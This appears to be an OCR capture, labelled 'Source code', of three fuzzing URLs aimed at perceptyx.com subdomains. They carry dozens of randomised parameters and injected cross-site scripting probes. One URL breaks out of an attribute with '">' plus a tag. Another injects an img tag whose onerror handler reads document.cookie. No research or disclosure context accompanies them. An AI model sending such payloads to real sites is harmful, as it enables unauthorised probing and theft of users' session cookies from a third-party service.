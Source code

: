 https://eu.perceptyx.com/hites22/dc/?Perceptyx=edgde&categoryid=l5gds&csrf_token=x506m&defaults=tklgx&emailto=yfja1&height=bm5q8&images=tfn0w&jsonp=hdii7&keywords=vx5ot&lang=&last=oq8gh&list_type=h6bin&month=ly6e1&params=q0g4k&self=ndt69&show=jsbc7&src=cbj4q&terms=vmyuk&token=frs2l&unsubscribe_token=wjzoz
https://ondemand.perceptyx.com/odaon3x3survey/dc/?0=v7vhq&ac=6e77hrs2s7jf&api=lix9x&first=zgevz&holdShow=b7w8g&jqXHR=mmisl&jsonp=eb3xi&keydown=ef0kj&lang=%22%3E%3Csyjhor%3E&list_type=orgun&open=vmspr&params=df3n0&password=v6dqg&ptx-modal=pfmhr&query=ssbfd&redirect=uv759&resize=g53j3&size=z4axa&this=s24gi&tid=n92wm&true=t2qc2
https://www.perceptyx.com/fhes39/dc/?ajaxStart=fhhuo&api=k8id8&begindate=m5r9c&cat=m7gh8&csrf_token=fx24k&enddate=ll9sc&from=fc87e&hidden=mmbc8&immagine=p31oq&jsonp=pkvbq&keywords=orh7e&lang=">xxx<img%20src=1%20onerror=alert(document.cookie)>&m=n8q9u&method=braek&page=nahgn&perceptyx=ae17u&result=gwj5z&style=psm2i&terms=qpydd&url=ols6a